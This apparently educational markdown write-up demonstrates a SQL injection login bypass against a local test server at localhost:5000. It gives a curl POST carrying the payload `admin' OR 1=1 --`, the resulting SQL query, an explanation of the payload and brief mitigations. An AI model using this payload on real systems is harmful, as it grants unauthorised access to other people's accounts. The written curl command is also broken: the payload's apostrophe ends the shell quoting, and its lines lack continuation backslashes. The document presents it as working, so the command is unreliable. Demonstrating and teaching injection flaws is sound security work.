 # **Exploit: SQL Injection**

## **Objective**
Exploit the login functionality to bypass authentication using a SQL Injection payload.

## **Preconditions**
1. The backend server should be running and accessible (e.g., `http://localhost:5000/login`).
2. The `/login` endpoint accepts a `POST` request with `username` and `password`.

---

## **Steps to Execute**

1. Open your iTerm terminal.
2. Use `curl` to send a malicious payload.

**Command:**
```
curl -X POST http://localhost:5000/login 
-H "Content-Type: application/json" 
-d '{"username": "admin' OR 1=1 --", "password": "irrelevant"}'
```

---

## **Expected Result**
The server will execute the SQL query:
```
SELECT * FROM users WHERE username = 'admin' OR 1=1 --' AND password = 'irrelevant';
```

- The `OR 1=1` condition always evaluates to `true`, effectively bypassing the password check.
- The response should indicate a successful login or return user data.

---

## **Explanation of the Exploit**

1. **Payload:**
   - `admin' OR 1=1 --`:
     - `admin`: The username input starts normally.
     - `' OR 1=1`: The SQL condition is manipulated to always be `true`.
     - `--`: Comments out the rest of the query to ignore the password check.

2. **Impact:**
   - Allows unauthorized access to any account in the database, bypassing authentication.

---

## **Mitigation**
- Use parameterized queries or an ORM (e.g., Sequelize, Prisma) to sanitize user inputs.
- Validate and sanitize inputs on both the client and server sides.